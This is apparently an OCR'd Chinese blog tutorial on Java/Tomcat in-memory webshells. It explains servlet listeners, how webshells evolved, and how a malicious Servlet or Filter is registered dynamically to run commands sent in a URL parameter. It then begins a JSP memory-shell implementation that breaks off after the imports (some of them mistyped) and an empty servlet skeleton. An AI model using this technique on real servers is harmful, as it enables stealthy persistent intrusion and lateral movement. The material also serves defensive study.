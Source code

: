 **HttpSessionListener：**对Session的创建和销毁进行监听。Session的销毁有两种情况，一个中Session超时，还有一种是通过调用Session对象的invalidate()方法使session失效。

**HttpSessionAttributeListener：**对Session对象中属性的添加、删除和替换进行监听；

**ServletRequestListener：**对请求对象的初始化和销毁进行监听；
**ServletRequestAttributeListener：**对请求对象属性的添加、删除和替换进行监听。

**用途**
可以使用监听器监听客户端的请求、服务端的操作等。通过监听器，可以自动出发一些动作，比如监听在线的用户数量，统计网站访问量、网站访问监控等。

### Tomcat

简单理解，tomcat是http服务器+servlet容器。
Tomcat作为Servlet容器，将http请求文本接收并解析，然后封装成HttpServletRequest类型的request对象，传递给servlet；同时会将相应的信息封装为HttpServletRequesponse类型的response对象，然后将response交给tomcat，tomcat就会将其变成响应文本的格式发送给浏览器。

## 0x1 webshell变迁

web服务端管理页面→大马→小马拉大马→一句话木马→加密一句话木马→加密内存马

![image-20230716221019089](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230716221019089.png)

## 0x2 如何实现webshell内存马

**目标：**访问任意url或者url，带上命令执行参数，即可让服务器返回命令执行结果。
**实现：**以java为例，客户端发起的web请求会依次经过Listener、Filter、Servlet三个组件，我们只要在这个请求的过程中做手脚，在内存中修改已有的组件或者动态注册一个新的组件，插入恶意的shellcode，就可以达到我们的目的。

![image-20230716221204651](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230716221204651.png)

## 0x3 内存马攻击原理

通过动态注册一个新的Filter或者向Filter中注入恶意的shellcode，让Filter允许攻击者访问到web服务器内存中的数据。主要拥有了可用的Filter，攻击者就能进行远程攻击，而不管是shellcode的注入过程还是对web服务器数据进行访问的过程都会在内存中出现异常行为。另外，由于web服务器在网络中与数据库和权限系统连接，攻击者在入侵后，可以更轻易地进行横向的渗透，拿到多个主机的权限。

## 0x4 内存马实现

这里是以tomcat的servletAPI型内存马为例讲一下内存马的实现。
下面代码先是创建了一个恶意的servlet，然后获取当前的StandardContext，然后将恶意servlet封装成wrapper添加到Standard Context当中，最后添加ServletMapping将访问的URL和wrapper进行绑定。

```JAVA
<%@ page import="java.ip.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.printWriter" %>
```

```JAVA
<%
    // 创建恶意Servlet
    Servlet servlet = new Servlet() {
        @Override
        public void init(ServletConfig servletConfig) throws ServletException {
        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest servletRequest,ServletResponse servletResponse) throws ServletException,IOException{
```